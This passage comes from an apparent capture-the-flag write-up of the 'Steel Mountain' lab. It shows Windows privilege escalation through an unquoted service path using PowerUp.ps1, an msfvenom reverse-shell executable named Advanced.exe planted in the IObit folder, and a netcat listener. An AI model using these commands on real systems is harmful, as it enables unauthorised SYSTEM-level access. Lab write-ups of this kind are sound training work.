 Load the powershell module and use powershell.
```shell
load powershell
```
```shell
powershell_shell
```

Run the script PowerUp.ps1 that we just downloaded into the target and run it.

```shell
. .\powerup.ps1
```

We will now run all the checks in this module using the following command.
```shell
Invoke-AllChecks
```
<img src="{{'/assets/img/images/04.Steel-Mountain/16.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/04.Steel-Mountain/17.png' | prepend: site.baseurl }}">

When we run the command, we can see that there is a unquoted service path vulnerability as we can see it in the checks.  More information on unquoted service path vulnerability can be found [here.](https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/) 

<img src="{{'/assets/img/images/04.Steel-Mountain/18.png' | prepend: site.baseurl }}">

For the service AdvancedSystemCareService9, the CanRestart option is set to true which means that the service can be restarted. We will now create a malicious file and upload it in the IObit folder and then restart the service to get the reverse shell. The file name is set to Advanced because we are uploading the file into the path where the Advanced SystemCare folder is present as we know there is an unquoted service path vulnerability. Since the service AdvancedSystemCareService9 is running as system32, we will be getting a reverse shell as system32.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.2.217 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
<img src="{{'/assets/img/images/04.Steel-Mountain/19.png' | prepend: site.baseurl }}">

Exit the powershell. Using the earlier meterpreter reverse shell, change directory to the path IObit and then upload the malicious file that we created.
```shell
upload Advanced.exe
```
<img src="{{'/assets/img/images/04.Steel-Mountain/20.png' | prepend: site.baseurl }}">

Open another terminal and use netcat listener on port 4443 to get the reverse shell.
```shell
nc -lnvp 4443
```
<img src="{{'/assets/img/images/04.Steel-Mountain/21.png' | prepend: site.baseurl }}" height="200">

Now, load the command prompt shell using the command in the meterpreter shell.
